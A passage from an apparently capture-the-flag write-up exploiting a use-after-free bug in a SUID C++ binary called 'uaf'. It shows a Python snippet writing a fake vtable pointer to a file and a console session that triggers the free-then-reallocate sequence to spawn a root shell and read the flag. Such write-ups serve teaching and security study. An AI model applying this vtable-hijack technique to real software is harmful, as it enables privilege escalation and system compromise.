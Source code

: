 There we go! That's the address we want. Now that we know we can allocate memory at address 0x614ea0 *and* we have full control over what gets written there, we simply need to write our fake object bytes to a file. Really, our fake object just consists of the vpointer - the age and name fields are irrelevant. I used python to write these as raw bytes to a file (note the little endian byte ordering):

```
:::python3
with open("e", "wb") as f:
    f.write(b'\x68\x15\x40\x00\x00\x00\x00\x00')
```

Now exploit:

```
:::console
$ ./uaf 24 e
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ ls
e  flag  uaf  uaf.cpp 
$ 
```

Boom! We have a shell in the uaf process. Since uaf is a SUID binary, it's running as root, meaning we can now use this shell to read out the flag file. That's all there is to it.
